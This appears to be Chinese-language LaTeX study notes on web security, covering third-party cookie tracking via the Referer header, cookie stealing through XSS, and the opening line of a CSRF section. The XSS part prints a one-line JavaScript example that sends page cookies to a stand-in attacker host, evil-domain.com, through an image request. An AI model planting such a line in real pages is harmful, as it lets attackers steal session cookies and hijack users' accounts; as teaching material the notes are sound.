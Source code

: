 \paragraph{Third-Party Cookies} 第三方cookies

\begin{itemize}
\item link tag包含的CSS文件
\item script tag包含的js文件
\item object或者embed tag包含的meida文件
\item iframe tag包含的html文件
\end{itemize}

对于第三方server，可以根据请求头中包含的Referer头来判断这个请求是从哪个site过来的。服务器可以使用一个特定的cookie来表示这个请求页面，如果同一个资源从另外一个页面请求过来，cookie也会随着请求一起放松过来。这样第三方服务器就能够知道访问Site A的用户同时也访问了Site B。这是在线广告使用的一种技术。


\paragraph{Cookie Stealing \& XSS} Cookie偷取 cross-site scripting attack

在同一个页面的所有JavaScript都运行在同一个domain下，有相同的path，和页面相同的协议。这表示从其他domain导入的script可以通过读取document.cookie来获得页面的cookie。

比如说从第三方evil-domain.com导入了一些有用的code，如果在evil-domain.com的家伙将代码换成下面的代码的话。
\begin{JavaScript}
(new Image()).src = "http://www.evil-domain.com/cookiestealer.php?cookie=" + cookie.domain;
\end{JavaScript}
他们就悄悄的取得了我的页面的cookie，这样他们就可以轻松的进行其他攻击，如session hijacking.

当由于导入第三方脚本造成的攻击，我们称为XSS(cross-site scripting attack).

cookie stealing不单只是因为导入了第三方脚本导致，对input缺乏过滤也可能造成cookie stealing。如果输入可以输出到一个页面，而输入中包含了 \lstinline$<script>$标签在其中，也可能导致脚本运行。


\paragraph{CSRF} Cross-site Request Forgery

攻击者让浏览器以登陆的用户做一些有害的操作。

